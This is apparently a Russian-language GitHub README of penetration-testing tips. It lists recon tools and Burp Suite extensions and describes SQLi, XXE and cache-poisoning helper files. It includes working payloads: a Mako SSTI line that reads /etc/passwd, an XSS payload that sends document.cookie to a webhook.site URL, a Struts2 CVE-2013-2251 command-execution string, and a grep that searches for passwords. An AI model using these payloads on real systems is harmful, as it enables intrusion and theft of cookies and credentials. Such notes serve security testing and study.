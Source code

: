 # Hack Tips

## Разведка доменных имен

### [Cero](https://github.com/glebarez/cero)
Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-р�[...]  
- Извлекает сертификаты из любого протокола, работающего через TLS (не только HTTPS).  
- Позволяет указывать цели: доменные имена, IP-адреса и диапазоны CIDR (поддержка IPv6).

---

### [hakip2host](https://github.com/hakluke/hakip2host)
Инструмент для возврата связанных доменных имен по списку IP-адресов.  
- DNS PTR-поиски  
- Альтернативные имена субъектов (SAN) в SSL-сертификатах  
- Общие имена (CN) в SSL-сертификатах

---

### [httpx](https://github.com/projectdiscovery/httpx)
Быстрый и многоцелевой HTTP-инструментарий.  
- Позволяет запускать несколько тестов с помощью библиотеки.

---

### [waymore](https://github.com/xnl-h4ck3r/waymore)
Инструмент для поиска архивных ссылок через Wayback Machine.  
- Находит больше ссылок, чем другие инструменты.  
- Загружает архивные ответы и URL-адреса.

---

### [xnLinkFinder](https://github.com/xnl-h4ck3r/xnLinkFinder)
Поиск конечных точек и потенциальных параметров заданной цели.  
- Сканирование одного или нескольких доменов/URL  
- Поиск файлов и параметров в каталогах или файлах  
- Импорт из Burp (XML), ZAP (ASCII), Caido (CSV)  
- Интеграция с результатами waymore

---

## Burp Suite — полезные расширения

### Turbo Intruder
Мощное расширение для проведения высокоскоростных атак (brute-force, fuzzing) с помощью скриптов на Python.  
- Кастомизация логики атаки  
- Обработка ответов для поиска уязвимостей

#### turbo-intruder_script.py
Скрипт для проведения Time-Based SQL Injection с использованием расширения Turbo Intruder для Burp Suite. Скрипт перебирает символы для извлечения схем из базы данных через подстановку значений из файла символов и анализирует задержку в ответах для определения успешных угадываний.

---

### Copy as FFUF Command
Упрощает экспорт запросов из Burp Suite для ffuf.  
- Автоматически формирует команду ffuf по выбранному запросу

### Hackvertor
Расширение для преобразования и кодирования данных в Burp Suite.  
- Большое количество кодировок  
- Удобно для генерации payload'ов, обхода фильтров и анализа данных

### Param Miner
Автоматически ищет скрытые и нестандартные параметры в веб-приложениях.  
- Позволяет находить дополнительные точки атаки

### HackBar
Интерактивное расширение для тестирования и манипулирования HTTP-запросами прямо из Burp Suite.  
- Позволяет быстро конструировать и модифицировать payload'ы  
- Включает функции для кодирования/декодирования (URL, Base64 и др.)  
- Удобно для проведения ручного тестирования (XSS, SQLi, LFI и др.)  
- Поддерживает работу с cookie, заголовками и параметрами  
- Имеет панель быстрого доступа прямо в окне запроса

---

## Веб-уязвимости

### SSTI (Server-Side Template Injection) в Python

#### Mako Templates
- Проверка уязвимости:  
  ```python
  ${7*7}  # → 49
  ```
- Чтение файла:  
  ```python
  <% import os %>${os.popen('cat /etc/passwd').read()}
  ```

---

### XSS Payload

```html
<img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;">
```

#### exploit.svg
Пример SVG-файла с использованием встраивания XML External Entity (XXE). Содержит сущность, ссылающуюся на файл `/etc/passwd`, что может быть использовано для демонстрации или тестирования XXE-уязвимостей.

---

## LFI (Local File Inclusion)
- [PHP Wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md) 
- **Top 25 LFI Parameters** — [файл](https://github.com/felixsta/hack_tips/blob/main/Top_25_LFI_Parameters)  
- **LFI Wordlists:**  
  - [SecLists/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)  
  - [DragonJAR/Security-Wordlist/main/LFI-WordList-Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)

#### delimiter_list
Список символов-разделителей, используемый для подбора полезной нагрузки при отравлении кэша (cache poisoning). Содержит различные символы и их URL-кодированные варианты, которые помогают обходить фильтры и изменять поведение кэширования на стороне сервера во время проведения атак или fuzzing.

---

## SQLi (SQL Injection)
- [Stacked Queries](https://www.sqlinjection.net/stacked-queries/)  
- [Pentestmonkey SQLi Cheat Sheet](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

---
## jQuery
- `jquery.fn.jquery` в `jQuery` возвращает строку, содержащую текущую версию библиотеки `jQuery`. Например, если вы используете `jQuery 3.7.0`, то `jquery.fn.jquery` вернет `3.7.0`

---
## Struts2 CVE-2013-2251 payload
```
/index.action?redirect:%25%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%22ls%20-la%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read%28%23d%29%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2C%23out.println%28%23d%29%2C%23out.close%28%29%7D
```

## Поиск кредов
```
grep -r "password{" /www 2>/dev/null
```
